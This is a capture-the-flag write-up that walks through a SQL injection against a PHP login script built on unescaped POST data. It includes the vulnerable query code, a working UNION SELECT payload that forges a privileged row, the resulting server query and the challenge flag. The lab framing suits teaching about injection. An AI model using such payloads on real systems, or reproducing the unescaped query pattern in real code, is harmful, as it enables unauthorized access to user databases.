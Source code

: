 Injection 2
===========

Using unescaped POST data in PHP for MySQL requests is very bad. Here we have
(in the source):

```PHP
<?php
// ...
$username = $_POST["username"];
$password = $_POST["password"];
$debug = $_POST["debug"];
$query = "SELECT * FROM users WHERE username='$username'";
$result = mysqli_query($con, $query);
// ...
?>
```

So, a user can pass in any string to `$username`, and if it contains a 
single-quote, we can execute custom SQL commands.

The database contains no data, so we must generate a fake result. To do this, 
we use a combination of **union** and **select** to create fake data:

```SQL
union select * from (select 1 as id, 'a' as username, 'a' as password, 1, 1337 as user_level) as fake
```
- The value 1' is just an arbitrary value for an unnamed row, so that when we 
`union` this result, it has the same number of columns as the database (which 
is apparently five).
- The value '1337' allows us to get past the user\_level check:
```PHP
if ($row["user_level"] >= 1337) {
      echo "<p>Your flag is: $FLAG</p>";
} else {
      echo "<p>Only user levels 1337 or above can see the flag.</p>";
}
```

We also use `as` to give our fake row a name.

We want to pass in this command so that `$username` has a **value** +
 **a single-quote** + _the rest of our command_. To do thsi, we now have:
```
a' union select * from (select 1 as id, 'a' as username, 'a' as password, 1, 1337 as user_level) as fake union select * from users where password='a
```
- The last part (union select ... where password) is so that we can keep an 
even number of single-quotes, so that the enclosing single-quote from the 
original `$query` command is matched.
- Putting it all together, when we pass in our input for `$username` (we also 
pass in the value "a" for `$password`), the query on the server will be:
```SQL
SELECT * FROM users WHERE username='a' union select * from (select 1 as id, 'a' as username, 'a' as password, 1, 1337 as user_level) as fake union select * from users where password='a'
```

Our flag is `flag_nJZAKGWYt7YfzmTsCV`

